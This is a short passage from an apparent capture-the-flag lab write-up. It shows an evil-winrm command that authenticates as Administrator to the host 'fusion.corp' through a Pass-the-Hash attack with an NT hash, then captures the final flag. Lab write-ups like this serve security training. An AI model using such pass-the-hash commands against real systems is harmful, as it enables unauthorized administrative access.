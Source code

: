 Using the Pass-the-Hash attack we can authenticate as `Administrator` via `evil-winrm` using the hash in NTHash format and get the third flag by completing the room! :tada:

```bash
evil-winrm -i fusion.corp -u administrator -H '9653b02d945329c7270525c4c2a69c67'
```

<figure><img src="../../.gitbook/assets/image (724).png" alt=""><figcaption></figcaption></figure>
